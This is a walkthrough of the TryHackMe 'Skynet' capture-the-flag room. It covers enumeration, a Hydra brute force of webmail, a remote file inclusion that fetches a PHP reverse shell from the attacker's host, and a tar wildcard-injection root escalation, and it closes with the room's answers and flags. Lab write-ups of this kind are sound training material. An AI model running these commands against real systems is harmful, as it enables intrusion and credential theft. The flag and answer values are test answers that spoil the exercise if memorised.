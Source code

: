 # [Skynet](https://tryhackme.com/r/room/skynet)

![Skynet](./images/Skynet.png)

[Skynet](https://tryhackme.com/r/room/skynet) is listed as an easy room. A vulnerable Terminator themed Linux machine. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* enum4linux
* Hydra
* Searchsploit
* Reverse Shell

![IP](./images/IP.png)

## Task 1 - Deploy and compromise the vulnerable machine!

![logo](./images/logo.png)

Are you able to compromise this Terminator themed machine?

![blog](./images/blog.png)

You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

### Enumeration & Exploit

* Port scan with **Nmap**

	```
	nmap -sC -sV $IP -oN nmap-scan
	```

	![nmap](./images/nmap.png)

* Directory scan with **Gobuster**

	```
	gobuster dir -u $IP -w /usr/share/wordlists/dirb/big.txt -t50 | tee gobuster-default
	```

	![gobuster](./images/gobuster.png)

* Enumeration SMB with **enum4linux**
	
	```
	enum4linux $IP
	```

* Connect to smbclient

	```
	smbclient //$IP/anonymous
	ls
	```

	![login](./images/login.png)

* Download and open `attention.txt` file

	![attention](./images/attention.png)

* Change to logs directory and download log file

	![logs](./images/logs.png)

* Brute force login with hydra

	```
	hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
	```

	![hydra](./images/hydra.png)

* Login to webmail with our credential

	![webmail](./images/webmail.png)

* Open email `Samba Reset Password` & get the password smb

	![password](./images/password.png)

* Connect to smbclient with `milesdyson` credential

	```
	smbclient -U milesdyson //$IP/milesdyson
	```

	![smbclient](./images/smbclient.png)

* Download `importart.txt` on noted folder and view the file

	![important](./images/important.png)

* Directory scan on a scret page with **Gobuster**

	```
	gobuster dir -u $IP/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt -t50 | tee gobuster-secret
	```

	![secret-page](./images/secret-page.png)

* Open the webpage `http://10.10.33.100/45kra24zxs28v3yd/administrator/`

	![web-cuppa](./images/web-cuppa.png)

* Searchsploit for `cuppa`

	![searchsploit](./images/searchsploit.png)

* Download `searchsploit` file & Read the file

	```
	searchsploit -m 25971
	```

	![download](./images/download.png)

	![payload](./images/payload.png)

* Open `http://revshells.com` and create PHP reverse shell with our machine IP and Port
	
	![revshells](./images/revshells.png)

* Start Listener on attacker machine

	```
	nc -lvnp 8888
	```

* Start HTTP server to in the folder `revshell.exe`

	```
	python3 -m http.server
	```

	![http.server](./images/http.server.png)

* Request `revshell.exe` link to get reverse shell

	```
	http://10.10.237.99/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.60.166:8000/revshell.php
	```

	![web-access](./images/web-access.png)

	![revshells.download](./images/revshells.download.png)

	![get-shell](./images/get-shell.png)

* Spawn a shell with python

	```
	python -c 'import pty;pty.spawn("/bin/bash")'
	```

	![python-spawn](./images/python-spawn.png)

* Get the `user.txt`

	![user-txt](./images/user-txt.png)

* Now let’s see what we have in miles’ home directory

	![backups](./images/backups.png)

* There is a backup script (backup.sh) that compresses the entire /var/www/html directory with tar and saves the archive to miles’ home directory. The script is executed by root every minute, we can see in crontab

	![crontab](./images/crontab.png)

* We can perfom a wildcard injectioncan to execute a privileged shell with tar executed by root as follows

	```
	cd /var/www/html
	printf '#!/bin/bash\nchmod +s /bin/bash' > shell
	echo "" > "--checkpoint-action=exec=sh shell"
	echo "" >> --checkpoint=1
	```

	![privileged](./images/privileged.png)

* Wait for 1 minute and executed `/bin/bash -p` and get a root shell

	![root](./images/root.png)

* Get the `root.txt`

	![root-txt](./images/root-txt.png)

### Answer the questions below

* What is Miles password for his emails?

	`cyborg007haloterminator`

	![hydra](./images/hydra.png)

* What is the hidden directory?

	`/45kra24zxs28v3yd`

	![important](./images/important.png)

* What is the vulnerability called when you can include a remote file for malicious purposes?

	`Remote File Inclusion`

	![searchsploit](./images/searchsploit.png)

* What is the user flag?

	`7ce5c2109a40f958099283600a9ae807`

	![user-txt](./images/user-txt.png)

* What is the root flag?

	`3f0372db24753accc7179a282cd6a949`

	![root-txt](./images/root-txt.png)


